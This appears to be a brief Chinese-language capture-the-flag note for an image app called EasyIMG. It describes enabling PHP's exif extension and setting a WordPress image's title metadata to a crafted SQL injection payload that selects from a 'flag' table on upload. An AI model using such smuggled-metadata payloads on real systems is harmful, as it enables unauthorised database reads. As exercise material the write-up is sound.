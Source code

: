 环境  
php.ini：extension=php_exif.dll  
  
WP  
图片属性标题改为：', '', '', (select * from flag))#  
上传图片造成SQL注入  
  
![image](https://github.com/Night-Tac/EasyIMG/blob/main/index.png)
